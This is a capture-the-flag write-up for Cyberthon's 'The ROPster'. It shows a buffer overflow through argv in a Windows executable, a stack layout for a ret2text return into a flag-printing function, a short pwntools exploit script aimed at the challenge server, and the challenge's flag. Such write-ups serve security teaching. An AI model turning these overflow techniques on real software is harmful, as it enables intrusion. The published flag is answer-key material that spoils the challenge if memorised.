 # Cyberthon: CSIT

##### The ROPster [1500]

_You have found an artefact left behind by the attacker. Now is your chance to RE the executable. Only those who exploit it successfully will obtain the hidden flag._

`nc 128.199.181.212 8123`

Files: `Ropster.exe`

#### Poking around

As it's namesake, `The ROPSter` is a Return-Oriented-Programming pwn challenge. ROP is something I've tackled often in linux, but it's rare to see one involving an `.exe`.

Regardless, every binary exploitation challenge starts with 3 simple things:

1. `checksec`, which is unfortunately not an option:![image-20200502175146916](image-20200502175146916.png)
2. IDA Pro, which is unfortunately rather unhelpful: ![image-20200502175248990](image-20200502175248990.png)
3. Running random inputs on the binary, which is evidently the only option

So. We'll start off straight by running the bare exe: ![image-20200502175541137](image-20200502175541137.png)

`stdin` is clearly unavailable, so the only alternate source of input must be `argv`:

![image-20200502180000870](image-20200502180000870.png)

And if you give an input that's long enough (`0x80`), you'll see the Windows equivalent of a segfault:

![image-20200502182024737](image-20200502182024737.png)

We now know that the binary requires a buffer overflow through `argv`<sup>1</sup>. Where do we go from here?

#### Interactive Disassembly

The decompiled output for `Ropster.exe` is pretty terrible by default. IDA Pro can't guess the function labels on it's own, and we'll have to find out where execution starts on our own.

To find a reference to `argv`, we'll search for the string that's printed along with it, `"ROPSTER:"`:

![image-20200502183255416](image-20200502183255416.png)

We can make a couple of deductions.

* `sub_4040133BB` is essentially `printf()`, taking in `argv` from `v2`. At the start of the function definition, `v2` is located at `[ebp-80h]`, so the buffer takes in 0x80 chars of input before Bad Stuff happens, as empirically found earlier on.

![image-20200502183637982](image-20200502183637982.png)

* The variable `g41f` is probably an actual flag on server-side. This tells us where we need to jump:

![image-20200502184548512](image-20200502184548512.png)

So if we model the stack something like,

```
+---------buffer---------|-------sp-------|-return pointer-|
|        'A'*0x80        | <random_value> |   0x4040707D   |
<-----------80-----------|-------04-------|-------04-------|
```

We'll get the flag printed immediately.

![image-20200502185540288](image-20200502185540288.png)

Incidentally, this makes the challenge a simple `ret2text`, rather than a full-blown exercise in ROP. Perhaps an unintended solution?

#### Flag

`Cyberthon{SuChaGr34tROPster}`

#### Code

This payload will not work for `argv` input.<sup>2</sup>

```python
from pwn import *
payload = 'A'*0x80 + p32(0x13371337) + p32(0x4040707D)
r = remote('128.199.181.212', 8123)
r.sendline(payload)
r.interactive()
```

#### Footnotes

1. Naturally, `argv` isn't accessible server-side. Presumably, the `stdin` of the server is getting piped as an argument.
2. Presumably, something in windows is messing with attempts to run the exploit on `Ropster.exe` locally.
